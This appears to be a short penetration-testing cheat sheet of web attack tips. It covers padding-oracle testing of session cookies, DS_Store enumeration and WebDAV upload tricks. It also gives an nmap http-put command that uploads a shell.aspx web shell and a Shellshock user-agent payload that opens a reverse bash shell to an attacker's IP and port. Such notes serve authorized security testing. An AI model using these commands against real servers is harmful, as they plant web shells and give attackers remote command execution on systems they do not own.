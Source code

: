 # Misc

## session cookies

If server errors on wrong cookie,the sessions id might be vulnerable to padding oracle attacks, which we can test with padbuster or gobuster

## dsstore

DSStore Files are placed when apple device access shares. If they happen to be on a webserver we can use them to enumerate the filesystem with [ds_storescanner](
https://github.com/internetwache/ds_storescanner)

## other

* if all responses are forbidden on web discovery try different request methods

## http-put

```bash cheat put upload file with http put
nmap -Pn -n -p 80 --script=http-put.nse --script-args http-put.file='shell.aspx',http-put.url='/shell.aspx' <ip>
```

## webdav

Test which permissions we have and which filetypes can be uploaded (this creates a lot of junk on the server if its vulnerable):
`davtest -url <url>`

If a certain extension is blocked for uploading you might be able to upload a harmless extension and then rename it to the one you want with `move`.

Use cadaver to connect and upload:
`cadaver <ip> && put <filename>`

## shellshock

In user agent: 
```bash cheat shellshock shellshock in user agent
() { :; }; bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

tags: misc cookies session shellshock